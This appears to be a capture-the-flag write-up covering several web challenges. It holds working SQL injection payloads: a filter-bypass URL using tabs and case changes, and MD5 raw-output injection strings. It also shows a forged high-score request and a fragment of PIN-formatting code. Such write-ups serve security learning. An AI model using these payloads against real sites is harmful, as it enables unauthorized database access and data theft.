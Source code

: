 ```py
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

## SQL injection WAF bypass

the code is vulnerable to sql injection however, the input is being passed to a simple keywork waf.

### To bypass

1. The whitespace => we use the tab `0x9`
2. the select,from etc => case sensitive filter so we change the case of a char
3. Admin => myssql is case insensitive so we change a case too

**Final payload**
<http://host3.dreamhack.games:18369/?uid=%27%09Union%09Select%09NULL,upw,NULL%09From%09user%09Where%09uid=%22Admin%22%23>

## md5 password

SQL Injection with MD5

    $sql = "SELECT * FROM admin WHERE pass = '".md5($password, true)."'";
    ffifdyop
        md5: 276f722736c95d99e921722cf9ed621c
        to string: 'or'6<trash>
**payload**
`129581926211651571912466741651878684928`

## SQL injection waf bypass advanced

Here we will use the string concatination + boolean evaluation to get the flag char by char.
View full script on [HERE](../waf_bypass_advanced.py)

## Fly to the moon

- Debofuscate code
- Send a `GET` request to `/token.php` for token value
- Send a `POST` request to `/high-scores.php` with `token=tokenValue&score=31337`

